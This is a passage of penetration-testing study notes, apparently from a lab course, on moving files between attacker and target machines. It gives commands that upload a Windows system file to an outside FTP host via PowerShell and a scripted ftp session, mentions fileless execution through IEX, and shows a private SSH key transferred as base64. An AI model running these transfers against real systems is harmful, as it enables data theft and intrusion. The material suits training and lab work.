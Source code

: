PowerShell upload:
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

Non-interactive ftp upload:
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

---

## Recap: Windows

| Method | Direction | Protocol | Notes |
|--------|-----------|----------|-------|
| Base64 Encode/Decode | Upload & Download | None | Good for small files, copy/paste |
| PowerShell Web (WebClient / Invoke-WebRequest) | Both | 80/443 | Supports fileless execution (IEX) |
| SMB | Both | 445 | May require auth; Impacket useful |
| FTP | Both | 21/20 | Simple; scriptable |
| WebDAV | Both | 80/443 | SMB alternative over HTTP |

---

# Linux File Transfer Methods

## Download Operations

### Base64 Encoding / Decoding

**Encode on attacker (Pwnbox):**
```bash
md5sum id_rsa
cat id_rsa | base64 -w 0; echo
```

**Decode on target:**
```bash
echo -n '<base64string>' | base64 -d > id_rsa
md5sum id_rsa
```

---
